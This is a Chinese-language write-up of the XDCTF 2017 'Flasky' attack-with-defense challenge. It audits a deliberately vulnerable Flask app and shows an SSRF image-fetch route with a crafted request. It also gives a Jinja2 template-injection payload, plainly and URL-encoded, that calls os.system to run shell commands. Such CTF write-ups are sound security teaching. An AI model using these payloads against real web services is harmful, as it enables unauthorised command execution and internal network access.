



## 环境编译
```
docker-compose build
docker-compose up -d
```
该题是2017年XDCTF对抗赛的第一题

## 漏洞一

### SSRF漏洞
在app目录下
排除了flask的模版和静态文件等杂项，路由主要集中在auth和main文件中，先看auth
在app目录下的auth文件夹中,先看一下他的初始化文件__init__.py

可以看到,应用使用了蓝厂函数，url前缀是auth，然后审查views.py,在众多的路由中，最有问题的是
`
@auth.route('/getimage/<url>')
def getimage(url):
    url = base64.b64decode(url)
    img = requests.get(url)
    return img.content
`
这很显然是一个ssrf漏洞，然后我们可以构造请求
`
http://127.0.0.1:8001/auth/getimage/aHR0cDovLzEwLjAuMC4yMTEvZmxhZy50eHQ=
`



#### SSTI 模版注入漏洞
在auth的开头，直接调用了
`
from jinja2 import Template
`
然后在145行一个路由直接调用了该函数
`
   145	@auth.route('/test', methods=['GET', 'POST'])
   146	def test():
   147	    if request.method == 'POST':
   148	        if valid_login(request.form['username'], request.form['password']):
   149	            f = open('/tmp/' + request.form['username'], 'w+')
   150	            f.write(request.form['x'])
   151	            f.close()
   152	            f = open('/tmp/' + request.form['username'], 'r')
   153	            txt = f.read()
   154	            template = Template(txt)
   155	            return template.render()
   156	    else:
   157	        flash('just a test')
   158	        return redirect(url_for('auth.login'))
   159
   160
   161	def valid_login(username, password):
   162	    if username == base64.b64decode(password):
   163	        return True
   164	    else:
   165	        return False
`
由于模版内容是可以被控制的，导致了SSTI的漏洞

将payload
`


{{c.__init__.func_globals['linecache'].__dict__['os'].system('touch /1.txt') }}


`
编码之后
`
%7b%25%20%66%6f%72%20%63%20%69%6e%20%5b%5d%2e%5f%5f%63%6c%61%73%73%5f%5f%2e%5f%5f%62%61%73%65%5f%5f%2e%5f%5f%73%75%62%63%6c%61%73%73%65%73%5f%5f%28%29%20%25%7d%0a%7b%25%20%69%66%20%63%2e%5f%5f%6e%61%6d%65%5f%5f%20%3d%3d%20%27%63%61%74%63%68%5f%77%61%72%6e%69%6e%67%73%27%20%25%7d%0a%7b%7b%63%2e%5f%5f%69%6e%69%74%5f%5f%2e%66%75%6e%63%5f%67%6c%6f%62%61%6c%73%5b%27%6c%69%6e%65%63%61%63%68%65%27%5d%2e%5f%5f%64%69%63%74%5f%5f%5b%27%6f%73%27%5d%2e%73%79%73%74%65%6d%28%27%6c%73%20%2f%27%29%20%7d%7d%0a%7b%25%20%65%6e%64%69%66%20%25%7d%0a%7b%25%20%65%6e%64%66%6f%72%20%25%7d
`



### ssti漏洞2

[git源码地址](https://github.com/WangYihang/Attack-With-Defense-Challenges)
[漏洞详细介绍](http://skysec.top/2018/04/15/Long-Ago-AWD-Flasky/)
[模版注入的payload](https://www.xmsec.cc/ssti-and-bypass-sandbox-in-jinja2/)
[模版注入payload2](https://kevien.github.io/2018/01/16/%E4%BB%8E%E4%B8%80%E9%81%93pentesterlab%E7%9A%84%E9%A2%98%E7%9B%AE%E8%AF%B4%E8%B5%B7/)


